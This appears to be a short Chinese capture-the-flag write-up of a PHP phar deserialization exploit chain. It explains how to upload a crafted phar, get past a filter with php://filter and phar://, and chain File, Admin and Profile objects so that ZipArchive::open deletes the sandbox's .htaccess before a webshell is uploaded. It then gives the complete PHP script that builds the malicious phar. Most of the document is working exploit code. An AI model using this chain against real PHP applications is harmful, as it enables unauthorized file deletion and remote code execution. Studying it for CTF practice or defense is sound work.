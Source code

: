 利用链:

- 上传exp.phar
- 绕过waf使用``php://filter/read=convert.base64-encode/resource=phar://exp.phar``触发phar让他反序列中file类的destruct, upload_file触发profile的__call函数, 触发open函数
- profile->admin声明为ZipArchive类, 利用这个原生类的同名函数open来删除原有的.htaccess, 删除完之后再传一个shell就可以了

exp:

```php
<?php
class File{
    public $filename;
    public $filepath;
    public $checker;

    function __construct()
    {
        $this->checker = new Admin();
    }
}

class Admin{
    public $size;
    public $checker;
    public $file_tmp;
    public $filename;
    public $upload_dir;
    public $file_error;
    public $content_check;
    public $obj;
    public $filepath;

    function __construct()
    {
        $this->checker = 1;
        $this->size = 1024;
        $this->content_check = new Profile();
    }
}

class Profile{
    public $username;
    public $password;
    public $admin;

    function __construct()
    {
        $this->admin = new ZipArchive();
        $this->username = "/var/www/html/sandbox/76c98b2e4f0f7a9a467bcf459b36ab5c/.htaccess";
        $this->password = ZipArchive::OVERWRITE;
    }
}

@unlink("exp.phar");
$phar = new Phar('exp.phar');
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new File();
$phar -> setMetadata($object);
$phar -> stopBuffering();
```
